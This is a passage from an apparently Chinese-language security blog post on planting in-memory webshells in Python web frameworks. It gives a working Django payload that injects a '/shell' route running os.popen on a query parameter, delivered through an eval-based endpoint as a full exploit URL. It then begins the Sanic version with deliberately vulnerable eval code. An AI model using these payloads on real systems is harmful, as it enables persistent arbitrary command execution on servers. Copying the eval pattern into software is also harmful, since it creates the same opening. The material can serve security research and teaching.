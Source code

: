 1. 获取app.urlpatterns

```python
__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns
```

2. 调用path函数，返回一条新路由

```python
__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read()))
```

> 当前场景下需要返回一个 `http.HttpResponse`，所以需要额外引入 `django` 来进行调用


3. 将新路由append到app.urlpatterns中实现内存马

```
http://localhost:8000/calc?expression=__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns.append(__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read())))
```

之后便可通过访问 `/shell` 来实现任意命令执行

![](/img/python-web-memory-shell/Pasted%20image%2020240614095128.png)


## Sanic

一个在python3.8+下的异步框架，使用起来也比较简单，一个任意代码执行的示例如下

### 场景代码

```python
from sanic import Sanic
from sanic.response import text

app = Sanic("mem")

@app.get("/calc")
async def test(request):
    result = eval(request.args.get('expression'))
    return text(f"<h2>result: {result}</h2>")

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8088)
```

### 请求构造

首先可以发现跟tornado和flask一样，所有的东西都在一个application中，这是一个`Sanic`的实例化对象，这个类的定义如下

```python
class Sanic(
    Generic[config_type, ctx_type],
    StaticHandleMixin,
    BaseSanic,
    StartupMixin,
    metaclass=TouchUpMeta,
):
```
